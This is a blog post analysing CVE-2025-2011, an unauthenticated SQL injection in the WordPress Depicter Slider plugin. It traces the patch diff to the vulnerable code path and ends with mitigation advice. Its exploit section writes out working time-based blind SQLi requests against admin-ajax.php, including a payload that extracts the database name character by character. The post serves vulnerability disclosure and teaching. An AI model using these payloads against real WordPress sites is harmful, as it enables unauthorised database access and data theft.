





# CVE-2025-2011 Analysis & POC


<!--more-->

The vulnerability occurs in the **Depicter Slider** WordPress plugin prior to version **3.6.2**. This could allow an attacker to directly interact with your database, potentially leading to data theft or manipulation.

* **CVE ID**: [CVE-2025-2011](https://www.cve.org/CVERecord?id=CVE-2025-2011)
* **Product**: [WordPress Depicter Slider Plugin](https://wordpress.org/plugins/depicter/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 3.6.1
* **CVSS severity**: High (9.3)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Depicter Slider**: v3.6.1 (vulnerable) and v3.6.2 (patched)
* **Diff tool**: **meld** or any other comparison tool to visualize differences between versions

## Analysis

The root cause is that the application directly injects data from a **GET** request into the SQL query without proper sanitization or escaping.

### Patch Diff

Use any diff tool to compare the vulnerable and patched versions.
A notable difference appears in **app/src/Controllers/Ajax/LeadsAjaxController.php**.

`index`, `list`, and `export` are three key functions inside the `LeadsAjaxController` class.

```php
public function index(RequestInterface $request, $view)
{
    $args = [
        's'         => Sanitize::textfield($request->query('s', '')),
        // other logic
    ];

    $response   = \Depicter::lead()->get($args);
    $statusCode = isset($response['errors']) ? 400 : 200;

    return \Depicter::json($response)->withStatus($statusCode);
}
```

```php
public function list(RequestInterface $request, $view)
{
    $args = [
        's'                => Sanitize::textfield($request->query('s', '')),
        // other logic
    ];

    $response = \Depicter::leadRepository()->getResults($args);

    return \Depicter::json($response);
}
```

```php
public function export(RequestInterface $request, $view)
{
    $args = [
        's'                => Sanitize::textfield($request->query('s', '')),
        // other logic
    ];

    $response = \Depicter::leadRepository()->getResults($args);

    // other logic

    return \Depicter::json([
        'errors' => [__('error occurred during the export process', 'depicter')]
    ])->withStatus(400);
}
```

All three functions were patched by replacing `Sanitize::textfield` with `Sanitize::sql`, ensuring the `'s'` parameter is properly sanitized and SQL-escaped.



### How it works

To understand how `textfield` and `sql` functions behave, search for the keyword `function textfield`. They likely reside in the same file since both are called from the same class `Sanitize`.

> If you have the **PHP Intelephense Extension** installed in **VSCode**, you can navigate directly to the function definition using <kbd>Ctrl</kbd> + <kbd>Click</kbd>.



`textfield` returns data sanitized by `sanitize_text_field`, while `sql` returns SQL-escaped data using `esc_sql()`.

```php
public static function sql( $input )
{
    return esc_sql( $input );
}
```

Since this is an **unauthenticated** vulnerability, we need to identify which of the three functions are called without any authentication mechanism. Once confirmed, we can trace deeper into the logic to verify potential SQL injection exploitation.

Searching directly by function names like `index`, `list`, or `export` may yield too many results. Instead, search for the class name `LeadsAjaxController` since all functions must be invoked through it.



👉 The `LeadsAjaxController` is used during **Ajax route registration**. When a request is sent to `/wp-admin/admin-ajax.php?action=action_here&param1=...`, WordPress maps the request via `handle('LeadsAjaxController@function')` to the corresponding method.

All three functions are invoked using the **GET** method, but `export` includes a `csrf-api` middleware, so we can exclude it. We'll focus only on `index` and `list`.

When analyzing `index`, we see that `$response` calls `\Depicter::lead()->get($args)`, which internally calls `\Depicter::leadRepository()->getResults($args)`. This is the same logic as `list`, so `list` is our main tracing point.

```php
public function list(RequestInterface $request, $view)
{
    $args = [
        's'                => Sanitize::textfield($request->query('s', '')),
        'ids'              => Sanitize::textfield($request->query('ids', '')),
        'sources'          => Sanitize::textfield($request->query('sources', '')),
        'dateStart'        => Sanitize::textfield($request->query('dateStart', '')),
        'dateEnd'          => Sanitize::textfield($request->query('dateEnd', '')),
        'order'            => Sanitize::textfield($request->query('order', 'DESC')),
        'orderBy'          => Sanitize::textfield($request->query('orderBy', 'id')),
        'page'             => Sanitize::int($request->query('page', 1)),
        'perPage'          => Sanitize::int($request->query('perpage', 10)),
        'columns'          => Sanitize::textfield($request->query('columns', '')),
        'includeFields'    => Sanitize::textfield($request->query('includeFields', false)),
        'skipCustomFields' => Sanitize::textfield($request->query('skipCustomFields', false))
    ];

    $response = \Depicter::leadRepository()->getResults($args);

    return \Depicter::json($response);
}
```

To understand how `getResults` executes its query, search for `function getResults` or use <kbd>Ctrl</kbd> + <kbd>Click</kbd> on `getResults`.



👉 Two `getResults` functions appear. Based on the class name `LeadRepository` and the `leadRepository()` function, it’s likely that `Depicter::leadRepository()` returns an **instance** of `LeadRepository`. The correct function can be confirmed by checking the number of parameters.

The `if` condition shows that when `includeFields` is empty, `getLeadsResults` is called. Let’s look at it:

```php
protected function getLeadsResults( $args ){
    // Purpose of joining tables is being able to search in leadField values as well
    $leadTable = $this->lead()->getTable();
    $leads = Lead::new()->select(
        "{$leadTable}.id",
        "{$leadTable}.source_id",
        "{$leadTable}.content_id",
        "{$leadTable}.content_name",
        "{$leadTable}.created_at",
        "lf.name as fieldName",
        "lf.value as fieldValue"
    )->join( "{$this->leadField()->getTable()} AS lf", "{$leadTable}.id", "=", "lf.lead_id" );

    // other logic

    if( ! empty( $args['s'] ) ){
        $search = "'%". $args['s'] ."%'";
        $leads->appendRawWhere('AND', "( lf.value like {$search} OR {$leadTable}.content_name like {$search} )");
    }

    $results = $this->paginate( $leads, $args );
}
```

Here, the `s` parameter (which the patch protects) is concatenated directly into the query using `appendRawWhere`.
Part of the resulting query would be:

```sql
AND (lf.value like '%s_here%' OR leadtable.content_name like '%s_here%')
```

👉 Thus, when sending a **GET request** to `/wp-admin/admin-ajax.php` with parameters:

```
action=depicter-lead-index&s=payload_here
```

* `list` is called with only the `s` parameter provided.
* `getResults` receives `$args`.
* The condition `if( ! $args['includeFields'] )` triggers `getLeadsResults`.
* The vulnerable SQL query executes, leading to SQL Injection.

## Exploit

### Detect SQLi

Send a **GET request** with a time-based SQLi payload:

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Decoded payload:

```sql
999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- -
```

This makes part of the query:

```sql
AND (lf.value like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- ' OR leadtable.content_name like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) #')
```



👉 The delayed response confirms the injection worked.

**Subquery in FROM clause**: The subquery acts as a temporary table, forcing MySQL to execute it first, delaying the main query execution.

### Get First Letter of Database Name

To fully dump data, we must first confirm we can extract at least one character of the database name.

Send a request with the following **SQLi payload**:

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

`SUBSTRING()` extracts the first letter of the **database name**, and `IF()` triggers `SLEEP(5)` if the first character equals `0x77` (`'w'`).

Hex encoding (`0x77`) is used because `s` originates from a **GET** parameter and is escaped by [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) and `sanitize_text_field` in WordPress.

👉 The delayed response confirms the first character is indeed `w`.

## Conclusion

The **CVE-2025-2011** vulnerability in the WordPress **Depicter Slider** plugin (prior to version **3.6.2**) arises from unvalidated user input being directly injected into SQL queries, leading to SQL Injection.

The patch introduces SQL escaping, ensuring injected data is safely encapsulated within `'%...%'` strings.

**Key takeaways**:

* Always validate and sanitize user input.
* Use `$wpdb->prepare()` when handling database queries in WordPress.
* Keep plugins updated and conduct regular security audits to reduce exposure.

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Depicter Slider Plugin <= 3.6.1 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/depicter/vulnerability/wordpress-depicter-slider-plugin-3-6-1-unauthenticated-sql-injection-via-s-parameter-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-09-30-cve-2025-2011/  

